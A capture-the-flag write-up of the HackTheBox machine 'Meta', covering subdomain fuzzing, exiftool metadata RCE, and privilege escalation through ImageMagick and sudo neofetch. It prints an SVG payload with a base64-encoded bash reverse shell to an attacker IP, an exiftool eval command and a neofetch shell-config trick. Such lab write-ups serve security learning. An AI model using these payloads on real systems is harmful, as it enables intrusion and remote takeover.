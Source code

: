 # Meta

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.204.20
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-07 14:51 EDT
Nmap scan report for 10.129.204.20
Host is up (0.0076s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

We have to add `artcorp.htb` to our `/etc/hosts` file to view port 80.

### ArtCorp --> Subdomain Fuzzing

The webpage was a start-up website:

<figure><img src="../../../.gitbook/assets/image (3259).png" alt=""><figcaption></figcaption></figure>

They had a team with some names I might need to use, along with a hint that this was a PHP based website.

<figure><img src="../../../.gitbook/assets/image (3492).png" alt=""><figcaption></figcaption></figure>

There wasn't much on the website, so we can try `gobuster` scanning for directories and `wfuzz` scanning for sub-domains. A `gobuster` scan reveals nothing, but the `wfuzz` scan did reveal one sub-domain.

```
$ wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -H 'Host:FUZZ.artcorp.htb' --hw=0 -u http://artcorp.htb
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://artcorp.htb/
Total requests: 100000

=====================================================================
ID           Response   Lines    Word       Chars       Payload                     
=====================================================================

000004177:   200        9 L      24 W       247 Ch      "dev01"
```

Here's the webpage:

<figure><img src="../../../.gitbook/assets/image (1495).png" alt=""><figcaption></figcaption></figure>

### Metadata RCE

The application allows us to upload images to the machine.

<figure><img src="../../../.gitbook/assets/image (3411).png" alt=""><figcaption></figcaption></figure>

Wneh an image is uploaded, the metadata of the image is printed on screen below:

<figure><img src="../../../.gitbook/assets/image (3313).png" alt=""><figcaption></figcaption></figure>

This was the output of `exiftool`, which has some RCE attacks possible through metadata.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

By following the PoC, I was able to confirm that we had RCE on the machine:

```bash
exiftool -config eval.config runme.jpg -eval='system("ls -la")' 
# upload runme.jpg
```

<figure><img src="../../../.gitbook/assets/image (2124).png" alt=""><figcaption></figcaption></figure>

For some reason, the above PoC doesn't let me execute reverse shells. So I changed the script used to this:

{% embed url="https://github.com/convisolabs/CVE-2021-22204-exiftool" %}

After changing the `exploit.py` file to have the correct port and IP address, I got a reverse shell.

<figure><img src="../../../.gitbook/assets/image (618).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

We cannot grab the user flag yet.&#x20;

### Morgify

There wasn't much on the machine that `www-data` could access. So I downloaded `pspy64` onto the machone to view processes executed by `root` and the user `thomas`.

There was a script run by the user:

```
2023/05/07 09:37:01 CMD: UID=1000 PID=1335   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=1000 PID=1336   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=1000 PID=1338   | /bin/bash /usr/local/bin/convert_images.sh 
2023/05/07 09:37:01 CMD: UID=0    PID=1337   | /usr/sbin/CRON -f 
2023/05/07 09:37:01 CMD: UID=0    PID=1339   | /bin/sh -c rm /tmp/* 
2023/05/07 09:37:01 CMD: UID=1000 PID=1340   | pkill mogrify
```

Here's the script:

{% code overflow="wrap" %}
```bash
www-data@meta:/tmp$ cat /usr/local/bin/convert_images.sh
#!/bin/bash
cd /var/www/dev01.artcorp.htb/convert_images/ && /usr/local/bin/mogrify -format png *.* 2>/dev/null
pkill mogrify
```
{% endcode %}

`mogrify` was used, and it is an image editor that is part of ImageMagick. We can first find the version of ImageMagick used here:

```
www-data@meta:/tmp$ mogrify --version
Version: ImageMagick 7.0.10-36 Q16 x86_64 2021-08-29 https://imagemagick.org
Copyright: © 1999-2020 ImageMagick Studio LLC
License: https://imagemagick.org/script/license.php
Features: Cipher DPC HDRI OpenMP(4.5) 
Delegates (built-in): fontconfig freetype jng jpeg png x xml zlib
```

Interesting. There are some RCE exploits pertaining to this:

{% embed url="https://www.cybersecurity-help.cz/vdb/SB2020121303" %}

{% embed url="https://github.com/coco0x0a/CVE-2020-29599" %}

How the exploit works is thorugh embedding XML code within an SVG file. Here's the SVG file I used:

```markup
<image authenticate='ff" `echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK | base64 -d | bash`;"'>
  <read filename="pdf:/etc/passwd"/>
  <get width="base-width" height="base-height" />
  <resize geometry="400x400" />
  <write filename="test.png" />
  <svg width="700" height="700" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink">
  <image xlink:href="msl:exploit.svg" height="100" width="100"/>
  </svg>
</image>
```

This uses a base64 encoded `bash` one-liner reverse shell. After waiting for a little bit, we should get a shell as `thomas`.&#x20;

<figure><img src="../../../.gitbook/assets/image (584).png" alt=""><figcaption></figcaption></figure>

### Neofetch

When we check `sudo` privileges, we see the following:

```
thomas@meta:~$ sudo -l
Matching Defaults entries for thomas on meta:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin,
    env_keep+=XDG_CONFIG_HOME

User thomas may run the following commands on meta:
    (root) NOPASSWD: /usr/bin/neofetch \"\"
```

GTFOBins does have a command for this binary, but it doesn't work:

```bash
TF=$(mktemp)
echo 'exec /bin/sh' >$TF
sudo neofetch --config $TF
```

Then, I noticed the `XDG_CONFIG_HOME` environment variable. The exploit above relies on changing the configuration files for `neofetch`. In this case, since we cannot specify any flags, we can just create a malicious configuration file that would give us a root shell.

<figure><img src="../../../.gitbook/assets/image (3563).png" alt=""><figcaption></figcaption></figure>
